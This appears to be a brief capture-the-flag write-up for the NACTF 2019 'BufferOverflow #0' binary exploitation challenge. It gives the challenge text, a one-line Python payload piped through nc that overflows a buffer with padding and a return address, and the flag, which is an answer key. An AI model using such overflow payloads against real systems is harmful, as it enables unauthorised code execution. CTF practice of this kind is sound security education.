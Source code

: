 # BufferOverflow #0

## Binary Exploitation - Points: 100

> The close cousin of a website for "Question marked as duplicate"
>
> 
>
> Can you cause a segfault and get the flag?
>
> 
>
> `shell.2019.nactf.com:31475`
>
> [bufover-0](bufover-0)
>
> [bufover-0.c](bufover-0.c)
>

	$ python -c 'print("A"*20+"\xc2\x91\x04\x08")' | nc ingress.cluster.nactf.com 31475

flag: `nactf{0v3rfl0w_th4at_buff3r_18ghKusB}`